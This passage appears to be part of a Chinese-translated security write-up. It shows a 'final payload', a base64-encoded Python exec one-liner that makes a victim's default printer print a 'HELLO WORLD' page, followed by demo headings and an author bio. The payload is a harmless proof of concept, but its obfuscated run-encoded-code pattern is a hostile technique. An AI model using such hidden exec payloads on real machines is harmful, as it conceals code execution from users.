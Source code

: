 **末级有效载荷**

```
py -c “import base64;exec(base64.b64decode(‘aW1wb3J0IHdpbjMydWkNCmltcG9ydCB3aW4zMnByaW50DQppbXBvcnQgd2luMzJjb24NCklOQ0ggPSAxNDQwDQpoREMgPSB3aW4zMnVpLkNyZWF0ZURDICgpDQpoREMuQ3JlYXRlUHJpbnRlckRDICh3aW4zMnByaW50LkdldERlZmF1bHRQcmludGVyICgpKQ0KaERDLlN0YXJ0RG9jICgiSW5qZWN0ZWQgRG9jIikNCmhEQy5TdGFydFBhZ2UgKCkNCmhEQy5TZXRNYXBNb2RlICh3aW4zMmNvbi5NTV9UV0lQUykNCmhEQy5EcmF3VGV4dCAoIkhFTExPIFdPUkxELCBieSBAMHg0OHBpcmFqIiwgKDAsIElOQ0ggKiAtMSwgSU5DSCAqIDgsIElOQ0ggKiAtMiksIHdpbjMyY29uLkRUX0NFTlRFUikNCmhEQy5FbmRQYWdlICgpDQpoREMuRW5kRG9jICgp’))”
```

# **演示**

## 受害者的电脑

## 攻击者的电脑

![](img/2836b99443d6e487aeb6fb074cf5d815.png)

***宾果！***

# 关于作者

Piyush Raj 现在是一名 18 岁的大学新生，目前在 OWASP 基金会担任谷歌学生开发者。他是过去的**谷歌代码贡献获奖者**，喜欢玩**足球**。

*你可以通过*[***LinkedIn***](https://linkedin.com/in/0x48piraj)***，***[***Twitter***](https://twitter.com/0x48piraj)***，***[**insta gram**](https://instagram.com/piyushrajofficial)
